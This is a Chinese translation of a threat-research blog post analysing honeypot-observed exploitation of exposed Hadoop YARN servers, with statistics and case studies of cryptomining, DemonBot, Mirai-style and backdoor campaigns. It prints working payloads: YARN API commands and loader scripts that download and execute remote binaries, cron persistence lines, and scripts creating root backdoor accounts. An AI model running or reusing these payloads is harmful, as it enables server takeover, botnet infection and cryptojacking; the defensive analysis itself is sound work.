

# Hadoop YARN:攻击面及其利用的评估

> 原文：<https://medium.com/hackernoon/hadoop-yarn-assessment-of-the-attack-surface-and-its-exploits-e239759f3809>

*TL；博士*

*   *Hadoop YARN 漏洞利用的速度正在放缓，但仍保持在每天约 350，000 个事件的水平*
*   *1065 台服务器暴露易受攻击*
*   *易受攻击的服务器和攻击目标的地理分布是全球性的，并且集中在云数据中心密度高的地区*
*   *这些攻击背后的动机多种多样，从植入 Linux 后门、用扫描和 DDoS 的物联网恶意软件感染服务器，到密码挖掘活动*
*   *自 2018 年 4 月以来，Monero cryptomining 活动一直在积极滥用暴露的 Hadoop YARN 服务器，开采总收入为 566 XMR(约 60，000 美元),并以平均每天 2 XMR (212 美元)的速度增长收入*
*   *在不到 14 天的时间里，从 Hadoop YARN 漏洞攻击中收集到的恶意软件足以创建一个小型动物园*
*   *Hadoop YARN 服务器的所有者应该小心，因为他们可能成为滥用密码挖掘的受害者，导致性能下降、不稳定和更高的云利用率费用*
*   网上商家也应该关心。它们可能成为 DDoS 攻击的目标。
*   *消费者应该关心，因为如果他们最喜欢的网上商店成为 DDoS 攻击的受害者，他们将无法在网络星期一购物*

在我关于 DemonBot 的[博客](https://blog.radware.com/security/2018/10/new-demonbot-discovered/)中，我讨论了 Hadoop YARN 漏洞利用企图是如何升级的。在 10 月中旬，我们的欺骗网络每天记录多达 150 万次尝试*。好消息是，在上个月的下半个月，尝试率稳步下降——尽管不幸的是，还没有到我们应该为揭露了许多利用暴露的 Hadoop YARN 服务器的恶意活动之一而沾沾自喜的地步。*

*在过去的几天里，Hadoop Yarn 漏洞利用尝试的数量放缓至平均每天 350，000 次。也就是说，没有迹象表明威胁会很快消失，我们应该保持警惕。为了评估风险并量化威胁，自从我的上一篇博客以来，我一直在跟踪 Hadoop YARN 活动并探索攻击面的范围。了解潜在的滥用和暴露的服务器出现的威胁类型，可以更好地评估风险。*

****

# *攻击者和他们的受害者*

*从 9 月到 11 月上半月，我们的欺骗网络记录了超过 3500 万次利用漏洞的尝试，其中超过三分之一来自美国。英国、意大利和德国位居第二，三个国家联合起来，成功应对了超过一半的攻击企图。*

**

*从绝对数字来看，美国产生了近 1200 万次利用漏洞的尝试。英国和意大利各有 600 万次尝试，紧随其后的是德国，有 480 万次尝试。*

*攻击企图并不是专门针对某个地区的。英国和德国的“蜜罐”受到的打击是世界其他地区的两倍。每个地区的平均数字在 160 万到 320 万之间。*

**

# *Hadoop 纱线攻击面*

*为了评估攻击面，我对监听 Hadoop YARN 端口 TCP/8088 的服务进行了全局扫描，小心排除 Robert Graham 的 [masscan](https://github.com/robertdavidgraham/masscan) 排除列表中列出的敏感 IP 范围。到 11 月 8 日，暴露在公众面前的易受攻击的 Hadoop YARN 服务器数量为 1065 个。易受攻击的服务器分散在全球各地，在数据中心密度高的区域更为集中。*

**

*将上述易受攻击的 Hadoop YARN 服务器的位置与下面的[全球数据中心地图](https://www.datacentermap.com/)进行比较:*

**

*攻击面是全球性的，仅限于 1，000 多台服务器，但不应忽视这一点，因为强大的大数据服务器通常为恶意代理提供了巨大的潜力。*

# *虐待的类型*

*既然我们已经对攻击面和恶意参与者的兴趣有了一个很好的度量，现在是时候更仔细地看看这些参与者是如何试图利用这种情况的。*

*下图显示了我们的 medium interaction 蜜罐在 14 天内记录的不同 Hadoop YARN 漏洞。每个漏洞有效载荷都包含一个命令序列，该序列被散列到一个唯一的指纹中，使我们能够量化和跟踪一段时间内的活动。(*1)中的漏洞利用表包含与图中指纹相对应的每个命令序列的详细信息。*

**

*上面命令序列图中的红色条表示新 DemonBot 活动“YSDKOP”每天的尝试计数，该活动以恶意软件二进制文件的名称命名。*

*不同蓝色阴影中的两个大峰代表与 Hadoop YARN 密码挖掘活动相关的多个漏洞，该活动已经运行了至少 8 个月；它于 2018 年 4 月首次被发现，最近将其下载基础设施转移到 BitBucket.org。猜测使用 Atlassian 的免费和公共服务来跟踪不同版本的 cryptominer 及其配置文件会更方便…*

*上面的命令序列图中显示的其他时间较短、攻击性较低的活动主要是 Linux/IoT 僵尸网络的感染尝试。下面讨论了一些似乎值得一提的问题。*

# *比特桶加密挖掘器*

*自今年 4 月以来，一项正在进行的 Monero cryptomining 活动一直被认为是积极滥用暴露的 Hadoop YARN 服务器，共开采了 566 XMR(约 60，000 美元)，并以平均每天 2 XMR (212 美元)的速度增长其收入。恶意代理或组目前正在滥用三台服务器，并且随着时间的推移，平均哈希速率保持在 400 千赫/秒。*

*利用 Hadoop YARN 漏洞，从公共 BitBucket 帐户下载并执行外壳脚本:*

```
*{“max-app-attempts”:2,”am-container-spec”:{“commands”:{“command”:”wget -q -O — [https://bitbucket.org/zrundr42/mygit/raw/master/zz.sh](https://bitbucket.org/zrundr42/mygit/raw/master/zz.sh) | bash & disown”}},”application-id”:”application_1802197302061_0095″,”application-type”:”YARN”,”application-name”:”hadoop”}*
```

*“zz.sh”脚本存档在(*2)中以供参考，它在最终从[同一个存储库](https://bitbucket.org/zrundr42/mygit/src/master/)下载一个名为“x_64”的二进制文件之前，在服务器上执行一些清理工作。*

**

*x_64 二进制是 XMRig，一个用 C++写的开源高性能 Monero CPU miner(【https://github.com/xmrig/xmrig】T2)。*

```
*$ ./x_64 --version
XMRig 2.8.1
built on Oct 18 2018 with GCC 4.8.4
features: 64-bit AES
libuv/1.9.1*
```

*XMRig 的配置文件是“w.conf ”,从同一个位存储库下载:*

```
*{
    "algo": "cryptonight",
    "background": true,
    "colors": false,
    "retries": 5,
    "retry-pause": 5,
    "donate-level": 1,
    "syslog": false,
    "log-file": null,
    "print-time": 60,
    "av": 0,
    "safe": false,
    "max-cpu-usage": 95,
    "cpu-priority": 4,
    "threads": null,
    "pools": [
         {
            "url": "stratum+tcp://163.172.205[.]136:3333",
            "user": "46CQwJTeUdgRF4AJ733tmLJMtzm8BogKo1unESp1UfraP9RpGH6sfKfMaE7V3jxpyVQi6dsfcQgbvYMTaB1dWyDMUkasg3S",
            "pass": "h",
            "keepalive": true,
            "nicehash": false,
            "variant": -1
        }
    ],
    "api": {
        "port": 0,
        "access-token": null,
        "worker-id": null
    }
}*
```

*从配置文件中，我们可以找到池钱包地址:*

```
*46CQwJTeUdgRF4AJ733tmLJMtzm8BogKo1unESp1UfraP9RpGH6sfKfMaE7V3jxpyVQi6dsfcQgbvYMTaB1dWyDMUkasg3S*
```

*钱包地址与今年 5 月 Hadoop 管理员在 [Stackoverflow](https://stackoverflow.com/questions/50534973/yarn-dr-who-application-attempt-appattempt-fail) 和 [HortonWorks](https://community.hortonworks.com/questions/191898/hdp-261-virus-crytalminer-drwho.html) 社区中报告的操作地址相匹配；数千个密码挖掘作业导致了集群问题。*

*8 月，360 威胁情报中心发布了一份关于他们所谓的“8220 挖矿团伙”的[报告](https://ti.360.net/blog/articles/8220-mining-gang-in-china/)，也提到了同一个钱包地址。据研究人员称，这个采矿团伙被怀疑来自中国。*

*同样的地址也与 Github 上托管的另一个名为“ [Cpuhunter](https://github.com/lukacci/cpuhunter/tree/256a91d4a2a360f942827539a4c81f501a9db7ec) ”的密码挖掘开源软件的自述文件中的示例 Nanopool 报告链接中使用的钱包地址相匹配。*

**

*从 4 月 10 日开始使用的 Nanopool 钱包账户可以通过这个[链接](https://xmr.nanopool.org/account/46CQwJTeUdgRF4AJ733tmLJMtzm8BogKo1unESp1UfraP9RpGH6sfKfMaE7V3jxpyVQi6dsfcQgbvYMTaB1dWyDMUkasg3S)进行追踪。*

**

*截至 11 月 12 日，非法采矿作业产生的总 XMR 付款为 566 XMR 或约 60，000 美元。*

**

```
*IOCa1bd663986bae6b5cea19616c9507d09618eaddb71051ae826580a0b7e610ae5 x_64
Bitbucket repo: [https://bitbucket[.]org/zrundr42/mygit/src/master/](https://bitbucket.org/zrundr42/mygit/src/master/)
Mining pool account:
46CQwJTeUdgRF4AJ733tmLJMtzm8BogKo1unESp1UfraP9RpGH6sfKfMaE7V3jxpyVQi6dsfcQgbvYMTaB1dWyDMUkasg3S*
```

# *躲起来的恶魔机器人*

*YSDKOP 机器人是通过 Hadoop YARN 利用以下有效负载交付的:*

```
*User-Agent: [python-requests/2.6.0 CPython/2.6.6 Linux/2.6.32-754.3.5.el6.x86_64]
{"am-container-spec": {"commands": {"command": "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/bins.sh -O /tmp/flex; chmod +x /tmp/flex; /tmp/flex; rm -rf/tmp/flex"}}, "application-id": "application_1802197302061_0095", "application-type": "YARN", "application-name": "get-shell"}*
```

*下载的“bins.sh”脚本以典型的物联网加载程序的方式依次下载几个二进制文件:*

```
*$ cat bins.sh 
#!/bin/bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.mips; chmod +x YSDKOP.mips; ./YSDKOP.mips; rm -rf YSDKOP.mips
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.mpsl; chmod +x YSDKOP.mpsl; ./YSDKOP.mpsl; rm -rf YSDKOP.mpsl
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.sh4; chmod +x YSDKOP.sh4; ./YSDKOP.sh4; rm -rf YSDKOP.sh4
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.x86; chmod +x YSDKOP.x86; ./YSDKOP.x86; rm -rf YSDKOP.x86
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm6; chmod +x YSDKOP.arm6; ./YSDKOP.arm6; rm -rf YSDKOP.arm6
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.i686; chmod +x YSDKOP.i686; ./YSDKOP.i686; rm -rf YSDKOP.i686
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.ppc; chmod +x YSDKOP.ppc; ./YSDKOP.ppc; rm -rf YSDKOP.ppc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.i586; chmod +x YSDKOP.i586; ./YSDKOP.i586; rm -rf YSDKOP.i586
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.m68k; chmod +x YSDKOP.m68k; ./YSDKOP.m68k; rm -rf YSDKOP.m68k
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.sparc; chmod +x YSDKOP.sparc; ./YSDKOP.sparc; rm -rf YSDKOP.sparc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm4; chmod +x YSDKOP.arm4; ./YSDKOP.arm4; rm -rf YSDKOP.arm4
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm5; chmod +x YSDKOP.arm5; ./YSDKOP.arm5; rm -rf YSDKOP.arm5
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm7; chmod +x YSDKOP.arm7; ./YSDKOP.arm7; rm -rf YSDKOP.arm7
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.ppc440fp; chmod +x YSDKOP.ppc440fp; ./YSDKOP.ppc440fp; rm -rf YSDKOP.ppc440fp*
```

*不同的二进制文件对应于多个平台架构的相同源代码的交叉编译版本:*

```
*$ file *
YSDKOP.arm4:  ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, with debug_info, not stripped
YSDKOP.arm5:  ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, with debug_info, not stripped
YSDKOP.arm6:  ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.arm7:  ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.i586:  ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
YSDKOP.i686:  ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
YSDKOP.m68k:  ELF 32-bit MSB executable, Motorola m68k, 68020, version 1 (SYSV), statically linked, not stripped
YSDKOP.mips:  ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, not stripped
YSDKOP.mpsl:  ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, not stripped
YSDKOP.ppc:   ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, not stripped
YSDKOP.sh4:   ELF 32-bit LSB executable, Renesas SH, version 1 (SYSV), statically linked, not stripped
YSDKOP.sparc: ELF 32-bit MSB executable, SPARC, version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.x86:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped*
```

*快速浏览一下 i586 二进制文件的字符串就会发现典型的 DemonBot 标记:*

```
*$ strings YSDKOP.i586
…
185.244.25[.]153:420
8.8.8.8
/proc/net/route
        00000000
(null)
/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ
/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID
/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38
/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93
/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A
/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A
nwonknu
unknown
Hello
slammed
…
Sending TCP Packets To: %s:%d for %d seconds
STOP
[Shelling]-->[%s]-->[%s]-->[%s]-->[%s]-->[%s]*
```

*这是一个隐藏在随机名称 YSDKOP 后面的未更改的 [DemonBot](https://blog.radware.com/security/2018/10/new-demonbot-discovered/) 。*

```
*IOC

59719aa688954e7f4dd575173d7c9b5de6fd0d69d8c9ed8834d91a144e635e3b bins.sh 106dc7d4f44c1077b62c6d509ce471c79e27ffc7369d6418ddafed861c0f93be YSDKOP.arm4 dd62d3b51b194729f7270c590f647d08a1cbc6af8ecf0b92a98dc3e330fe304a YSDKOP.arm5 3fb0dd65608b93034e212ad85e660f6bc25a5df896410e0c6b9c411e56faac55 YSDKOP.arm6 74f8d9c9d91f87aa7f092efa6b12a4c9dfff492eb54f12d6e35e8bf3e96eacff YSDKOP.arm7 a36dff7844715c796de80f26b9dd4470de8cbc6c941499b6a94c048afd567316 YSDKOP.i586 7caed4bafe6c964c090d78f93e7eb7943bb19575532f19e70a87cfe2943d1621 YSDKOP.i686 dd8163a99b5cdd3e591213c64ad48e25d594f4b7ab9802cd7c60f3150a9e71f9 YSDKOP.m68k 67e85c8b24c3e382a1d83245d1c77f6b8b5f0b19be36fd8fb06f1cb42d07dad5 YSDKOP.mips 8b2407226356487558a26aba967befd48df53a5f53fd23b300f22b4dc9abe293 YSDKOP.mpsl b94176a7448aa8ea0c961bc69371778828f3ab5665b14cc235f8413d8bf86386 YSDKOP.ppc a96e07c8dc42eb05fa21069bb14391ee4241d1ccd9289c52cb273ffb7ecd3891 YSDKOP.sh4 43e445b0c644d52129c47154cd6bcdea7192d680cc3d2e8165b904c54ddd6fc2 YSDKOP.sparc
39f2b2c68362a347aad0942853d0262acec1e2f4174ba973b0c574f4567cb893 YSDKOP.x86*
```

# *上文，DemonBot-ng*

*通过以下 Hadoop YARN exploit 有效负载进行感染:*

```
*{"am-container-spec": {"commands": {"command": "cd /tmp; rm -rf *; wget http://80.211.59[.]125/n; sh n"}}, "application-id": "application_XXXXXXXXXXXXX_XXXX", "application-type": "YARN", "application-name": "get-shell"}*
```

*下载的脚本“n”包含下载两个二进制文件的代码，一个 32 位 x86，一个 64 位 x86:*

```
*$ cat n
#!/bin/sh
n="Supra.x86 Supra.x86_64"
http_server="80.211.59.125" 
dirs="/tmp/ /var/ /dev/shm/ /dev/ /var/run/ /var/tmp/"

for dir in $dirs
do
    >$dir.file && cd $dir
done 

for i in $n
do
    cp $SHELL $i
    >$i
    chmod 777 $i
    wget http://$http_server/$i -O $i
    chmod 777 $i
    ./$i
done*
```

*查看下载的“Supra.x86_64”二进制文件的字符串，我们看到与 DemonBot 的字符串非常匹配，未剥离的二进制文件中的修饰名也是如此。*

```
*$ strings Supra.x86_64
…
80.211.59.125:434
8.8.8.8
/proc/net/route
…
x86_64
Linux
/usr/bin/apt-get
Ubuntu/Debian
/usr/lib/portage
Gentoo
/usr/bin/yum
RHEL/CentOS
/usr/share/YaST2
OpenSUSE
/etc/dropbear/
OpenWRT
/etc/opkg
UNKNOWN
/etc/ssh/
Dropbear
/etc/xinet.d/telnet
Telnet
/usr/kerberos/bin/telnet
…
[1;37m[
[0;35mSupra
[1;37m]
[0;35m-->
[1;37m[
[0;35m%s
[1;37m]
[0;35m-->
[1;37m[
[0;35m%s
[1;37m]
[0;35m-->
[1;37m[
[0;35m%s
[1;37m]
[0;35m-->
[1;37m[
[0;35m%s
[1;37m]
[0;35m-->
[1;37m[
[0;35m%s
[1;37m]
…
GCC: (GNU) 4.2.1   
…*
```

*请注意，该字符串与之前在 DemonBot 源代码中发现的非常相似，但这次在第一个方括号中使用了“Supra”而不是“shell ”:*

```
*[**Supra**]–>[%s]–>[%s]–>[%s]–>[%s]–>[%s]*
```

*新的二进制代码还包含平台检测代码中扩展的指示符。最初的 DemonBot 检查了两个平台*

*   *Ubuntu/Debian，基于/usr/bin/apt-get 的存在，以及*
*   *RHEL/Centos，基于/usr/bin/yum 的存在*

*上文补充了以上两点:*

*   *Gentoo: /usr/lib/portage*
*   *OpenSUSE: /usr/share/YaST2*
*   *OpenWRT: /etc/dropbear*
*   *未知:/etc/opkg*
*   *Dropbear: /etc/ssh/*
*   *Telnet: /etc/xinet.d/telnet*

*用于这个 DemonBot 版本的编译版本与最初的 DemonBot: GCC (GNU) 4.2.1 相同。*

# *Hoho，希腊的僵尸网络。艾里奥斯*

*Hadoop YARN exploit 有效负载:*

```
*{"am-container-spec": {"commands": {"command": "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://68.183.96[.]48/bins/hoho.x86 -O /tmp/flex; chmod +x /tmp/flex; /tmp/flex servers"}}, "application-id": "application_XXXXXXXXXXXXX_XXXX", "application-type": "YARN", "application-name": "get-shell"}*
```

*二进制文件于 2018 年 10 月 30 日首次出现在服务器上:*

**

*hoho.x86 二进制文件包含文字字符串:*

```
*Botnet Made By greek.Helios*
```

*二进制文件用 UPX 可执行打包器打包，主要匹配 Mirai 未来组合代码。*

```
*IOC

7812fc4e894712845559193bd2b9cc88391b0a6691906124846cbaf73eb67b73 hoho.arm 622dd9dc905a14d881ce07227252f5086ba3b7afca88b913ece0bcfb4444b41b hoho.arm5 b9e0cce5412c1cb64f6e53493c8263f5e0d56e6e217ea4d94e401bf2da6d8c60 hoho.arm6 7050cb141e5eb0a8236639e0d9f2cc9bca63f2c3984b3ea8e30400984d24cfe6 hoho.arm7 4ce21713f20624ea5ba9eec606c53b7d9c38c2d72abf4043f509c81326bbdb1d hoho.m68k 485ecbe80f8f98b032af80cf32bb26d49e1071c75b25f6e306e37856f1446d38 hoho.mips a599bf6697062d3358b848db40399feafd65931834acc9228f97dc27aa7fa4bb hoho.mpsl 456b31214698f894e8f4eb4aa01a34305c713df526fd33db74b58f440e59a863 hoho.ppc e0a56e2ea529991933c38fc8159374c8821fdb57fe5622c2cf8b5ad7798bbc02 hoho.sh4 da53b60354c3565a9954cbaa0e1b6d7146d56890ee10cd0745b5787298db97a7 hoho.spc
9f4f93667e4892ca84a45981caafb4a39eabdc2f6c257f0dc2df04c73f1bf0a4 hoho.x86*
```

# *prax0zma.ru*

*该活动由一组外壳脚本组成，可从受损服务器上删除系统和其他用户帐户，并创建两个具有根用户权限的后门帐户。*

*后门帐户用户名为“VM”和“localhost ”,两者的密码都设置为哈希“$ 1 $ owj j0 fjv $ rmdaylph 3 xpxhxfpbe 8s 1”。*

```
*http://prax0zma[.]ru/8.sh
$ cat 8.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "*/5 * * * * curl -fsSL http://prax0zma[.]ru/8.sh | sh" > /var/spool/cron/root
echo "*/5 * * * * wget -q -O- http://prax0zma[.]ru/8.sh | sh" >> /var/spool/cron/root
#echo "0 * * * * pkill -9 r" >> /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/5 * * * * curl -fsSL http://prax0zma[.]ru/8.sh | /bin/sh" > /var/spool/cron/crontabs/root
echo "*/5 * * * * wget -q -O- http://prax0zma[.]ru/8.sh | /bin/sh" >> /var/spool/cron/crontabs/root
#echo "0 * * * * pkill -9 r" >> /var/spool/cron/crontabs/root

cd /boot ; wget -q http://hehe.suckmyass[.]cf/.o -O .b; chmod +x .b; nohup ./.b  >/dev/null 2>&1
cd /boot ; curl -O http://hehe.suckmyass[.]cf/.o ; chmod +x .o; nohup ./.o  >/dev/null 2>&1
#cd /tmp ; curl -O http://sandbotc2[.]ml/fefe | wget -q http://sandbotc2[.]ml/fefe ; chmod +x fefe; ./fefe ; rm -rf fefe*; >/dev/null 2>&1
echo 128 > /proc/sys/vm/nr_hugepages
sysctl -w vm.nr_hugepages=128
    ulimit -n 65000
    ulimit -u 65000

mkdir -p /tmp/.ha/

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    curl -fsSL http://prax0zma[.]ru/bash -o /tmp/.ha/nsyhs
fi

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    wget -q http://prax0zma[.]ru/bash -O /tmp/.ha/nsyhs
fi

chmod +x /tmp/.ha/nsyhs && /tmp/.ha/nsyhs----
http://hehe.suckmyass[.]cf/.o 
$ cat .o
cd /boot ; wget -q http://r00ts.truthdealmodz[.]pw/.i -O .0; chmod +x .0; nohup ./.0  >/dev/null 2>&1 ; rm -rf .0
cd /boot ; curl -O http://r00ts.truthdealmodz[.]pw/.i ; chmod +x .i; nohup ./.i  >/dev/null 2>&1 ; rm -rf .i
userdel -f bash >/dev/null 2>&1
userdel -f ssh >/dev/null 2>&1
userdel -f butter >/dev/null 2>&1
userdel -f r00t >/dev/null 2>&1
userdel -f axiga >/dev/null 2>&1
userdel -f cats >/dev/null 2>&1
userdel -f python >/dev/null 2>&1
userdel -f Word >/dev/null 2>&1
userdel -f fxmeless >/dev/null 2>&1
userdel -f yandex >/dev/null 2>&1
userdel -f synx >/dev/null 2>&1
userdel -f syncs >/dev/null 2>&1
userdel -f oracles >/dev/null 2>&1
userdel -f cubes >/dev/null 2>&1
userdel -f wwww >/dev/null 2>&1
userdel -f http  >/dev/null 2>&1
userdel -f R00T  >/dev/null 2>&1
userdel -f z  >/dev/null 2>&1
userdel -f r000t  >/dev/null 2>&1
userdel -f ssshd  >/dev/null 2>&1
userdel -f vps  >/dev/null 2>&1
userdel -f Duck >/dev/null 2>&1
userdel -f x >/dev/null 2>&1
userdel -f redisserver >/dev/null 2>&1
userdel -f admins >/dev/null 2>&1
userdel -f halts >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
#rm -rf /tmp/.*
rm -rf /var/tmp/.z
rm -rf /tmp/.FILE
rm -rf /tmp/.xm
rm -rf /tmp/.iokb21
rm -rf /tmp/.bzc bzc.tgz*
rm -rf /var/tmp/.xm.log
pkill -9 56545
pkill -9 Word
pkill -9 "  "
pkill -9 xds
pkill -9 httpd.conf
pkill -9 yam
pkill -9 xd
pkill -9 .syslog
pkill -9 wipefs
pkill -9 " "
pkill -9 auditd
pkill -9 crondb
pkill -9 syn
pkill -9 xnetd
pkill -9 ld-linux-x86-64
pkill -9 xm64
pkill -9 xm32
pkill -9 kthreadd
pkill -9 watchdogs
pkill -9 xmrig64
pkill -9 xig
pkill -9 ps
pkill -9 minerd
pkill -9 smh64
pkill -9 system.usermn
pkill -9 skrt
pkill -9 .xm.log
pkill -9 zjgw
pkill -9 SSHer
pkill -9 SSher
pkill -9 xm
pkill -f ld-linux-x86-64
pkill -f xm64
pkill -f xm32
pkill -f xig
pkill -f minerd
pkill -f ps
pkill -f .xm
/etc/init.d/crond start
service crond start
iptables -I INPUT -s 185.234.217.11 -j DROP
iptables -A INPUT -s 185.234.217.11 -j REJECT cd /boot ; wget -q http://hehe.suckmyass[.]cf/.o -O .b; chmod +x .b; nohup ./.b  >/dev/null 2>&1
cd /boot ; curl -O http://hehe.suckmyass[.]cf/.o ; chmod +x .o; nohup ./.o  >/dev/null 2>&1
#cd /tmp ; curl -O http://sandbotc2[.]ml/fefe | wget -q http://sandbotc2[.]ml/fefe ; chmod +x fefe; ./fefe ; rm -rf fefe*; >/dev/null 2>&1
echo 128 > /proc/sys/vm/nr_hugepages
sysctl -w vm.nr_hugepages=128
    ulimit -n 65000
    ulimit -u 65000

mkdir -p /tmp/.ha/

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    curl -fsSL http://prax0zma[.]ru/bash -o /tmp/.ha/nsyhs
fi

if [ ! -f "/tmp/.ha/nsyhs" ]; then
    wget -q http://prax0zma[.]ru/bash -O /tmp/.ha/nsyhs
fi

chmod +x /tmp/.ha/nsyhs && /tmp/.ha/nsyhs----
http://r00ts.truthdealmodz.pw/.i 
$ cat .i
#!/bin/bash

useradd -u 0 -g 0 -o -l -d /root -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' localhost >/dev/null 2>&1
useradd -u 0 -g 0 -o -l -d /root -N -M -p '$1$OwJj0Fjv$RmdaYLph3xpxhxxfPBe8S1' VM >/dev/null 2>&1
echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.hourly/0;chmod +x /etc/cron.hourly/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.daily/0;chmod +x /etc/cron.daily/0;

echo -e '#!/bin/sh\n\nwget --quiet http://r00ts.truthdealmodz[.]pw/.o -O- 3>/dev/null|sh>/dev/null 2>&1' > /etc/cron.weekly/0;chmod +x /etc/cron.weekly/0;

